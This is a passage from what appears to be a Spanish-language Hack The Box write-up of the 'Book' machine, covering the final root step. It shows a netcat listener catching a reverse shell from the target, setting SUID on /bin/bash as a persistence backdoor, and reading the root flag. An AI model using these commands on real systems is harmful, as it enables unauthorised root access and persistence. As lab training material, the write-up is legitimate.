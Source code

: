 Abrimos otra sesión `SSH` e intentamos escribir en `access.log`

```
reader@book:~/backups$ echo "test" > access.log
```

Como la shell que recibimos es terminada rápidamente lo que hice fue asignar `SUID` al binario `bash`:

```
┌─[✗]─[root@parrot]─[/home/silexx/HTB/book]
└──╼ $nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.176] 50008
# chmod 4755 /bin/bash
#
```

## Flag root.txt

```
reader@book:~$ bash -p
bash-4.4# whoami
root
bash-4.4# cat /root/root.txt
84da92a----------31297f70dd89714
```

Cualquier feedback es bienvenido, ¡gracias por leerme🤩!